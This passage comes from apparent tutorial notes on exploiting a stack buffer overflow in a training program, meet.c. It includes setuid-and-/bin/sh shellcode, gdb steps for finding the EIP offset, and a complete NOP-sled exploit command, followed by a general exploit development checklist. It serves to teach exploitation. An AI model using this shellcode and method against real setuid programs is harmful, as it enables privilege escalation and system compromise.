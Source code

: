 Using `printf` and `wc` to calculate size of a shellcode:

```text
$ printf "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" | wc -c
53
```

## Find address

To find where to point EIP in order to execute the shellcode:

```text
$ gdb -q --args ./meet Mr `python -c 'print("A"*412)'`
```

```text
(gdb) run
Starting program: /path/to/meet Mr AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
...
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

To look at what is on the stack, use the gdb [examine memory](https://sourceware.org/gdb/onlinedocs/gdb/Memory.html) command (for example in batches of 32 words (4 bytes) at a time):

```text
(gdb) x/32z $esp-200
```

Pick an address from the middle of the NOP sled to overwrite EIP.

Final exploit  code:

For `meet.c`, 412 bytes - 53 bytes of shellcode - 4 bytes return address (reversed due to the little-endian style of
`x86` processors) = 355 bytes

```text
$ ./meet Mr `python -c "print('\x90'*355 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x24\xd2\xff\xff')"
```

## Exploit development process

In the real world, vulnerabilities are not always as straightforward as the `meet.c` example. The stack overflow exploit development process generally follows these steps:

1. Control the execution flow (EIP register) by identifying a vulnerability that results in an overflow of a return address.
2. Determine the offset(s) and constrains (bad characters breaking the exploit such as line feeds, carriage returns, and null bytes).
3. Determine the attack vector.
4. Debug and trace the program's flow during the overflow.
5. Build the exploit.
6. Test the exploit.